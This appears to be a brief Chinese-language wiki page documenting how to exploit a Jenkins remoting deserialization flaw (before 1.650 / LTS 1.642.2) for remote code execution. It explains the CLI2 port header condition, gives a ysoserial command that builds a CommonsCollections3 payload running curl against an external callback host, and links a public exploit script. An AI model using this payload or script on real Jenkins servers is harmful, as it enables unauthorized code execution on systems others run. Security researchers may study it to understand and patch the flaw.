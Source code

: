 <languages  /> <translate>

簡介
----

CloudBeesJenkinsCI1.650之前版本和LTS1.642.2之前版本的remoting模塊中存在安全漏洞。遠程攻擊者可通過打開JRMP監聽程序利用該漏洞執行任意代碼。

利用需要X-Jenkins-CLI2-Port對應的端口，如果Jenkins無法獲取CLI版本2的端口標頭`X-Jenkins-CLI2-Port`它會退回到版本1。

利用ys生成二進製文件
--------------------

    java -jar ysoserial.jar CommonsCollections3 "curl http://r9rub4.ceye.io/" > payload.bin

利用腳本
--------

<https://github.com/foxglovesec/JavaUnserializeExploits/blob/master/jenkins.py>

</translate>